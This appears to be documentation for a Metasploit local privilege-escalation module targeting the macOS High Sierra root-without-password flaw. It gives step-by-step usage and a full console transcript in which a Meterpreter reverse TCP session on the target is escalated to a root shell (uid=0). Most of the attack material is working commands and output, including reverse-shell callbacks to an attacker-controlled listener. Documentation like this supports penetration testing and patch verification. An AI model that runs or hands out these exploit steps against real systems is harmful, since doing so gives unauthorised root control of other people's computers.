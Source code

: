 ## Vulnerable Application
This vulnerability works against OSX 10.13 (High Sierra).  Early
research (https://objective-see.com/blog/blog_0x24.html) suggests that
the vulnerability is the result of multiple errors ultimately started by
an incorrect return value from triggered by the function
`od_verify_crypt_password` returning true even if the account is
disabled.  The subsequent function calls appear to validate and create
the password, though there is still a lot of research into the bug and
these results should be verified once more research has been published.

## Verification Steps
1. Get a session on a vulnerable system
2. `use exploit/osx/local/root_no_password`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios
### Example Run
```
msf exploit(psexec) > use exploit/multi/handler
msf exploit(handler) > set payload osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
msf exploit(handler) > set lhost <MSF_IP>
lhost => <MSF_IP>
msf exploit(handler) > set lport 4567
lport => 4567
msf exploit(handler) > run

[*] Started reverse TCP handler on <MSF_IP>:4567 
httpserver[*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <OSX_IP>:49347) at 2017-11-29 07:28:32 -0600

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           :  (MacOSX 17.0.0)
Architecture : x64
Meterpreter  : x64/osx
meterpreter > getuid
Server username: uid=501, gid=20, euid=501, egid=20
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use exploit/osx/local/root_no_password 
msf exploit(root_no_password) > show options

Module options (exploit/osx/local/root_no_password):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (osx/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Mac OS X 10.13.1 High Sierra x64 (Native Payload)


msf exploit(root_no_password) > set lhost <MSF_IP>
lhost => <MSF_IP>
msf exploit(root_no_password) > set lport 4562
lport => 4562
msf exploit(root_no_password) > set session 1
session => 1
msf exploit(root_no_password) > run

[*] Started reverse TCP handler on <MSF_IP>:4562 
[*] Writing payload file as '/tmp/cinbvsmrmyxw'
[*] Meterpreter session 2 opened (<MSF_IP>:4562 -> <OSX_IP>:62522) at 2017-11-29 07:29:56 -0600
[*] <OSX_IP> - Meterpreter session 2 closed.  Reason: Died


[*] Executing payload file as '/tmp/cinbvsmrmyxw'
[!] This exploit may require manual cleanup of '/tmp/cinbvsmrmyxw' on the target

[-] Invalid session identifier: 2
msf exploit(root_no_password) > 
msf exploit(root_no_password) > 
msf exploit(root_no_password) > run

[*] Started reverse TCP handler on <MSF_IP>:4562 
[*] Writing payload file as '/tmp/imtjkakowanv'
[*] Executing payload file as '/tmp/imtjkakowanv'
[*] Meterpreter session 3 opened (<MSF_IP>:4562 -> <OSX_IP>:49348) at 2017-11-29 07:30:53 -0600
[+] Deleted /tmp/imtjkakowanv

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           :  (MacOSX 17.0.0)
Architecture : x64
Meterpreter  : x64/osx
meterpreter > getuid
Server username: uid=0, gid=20, euid=0, egid=20
meterpreter >
```

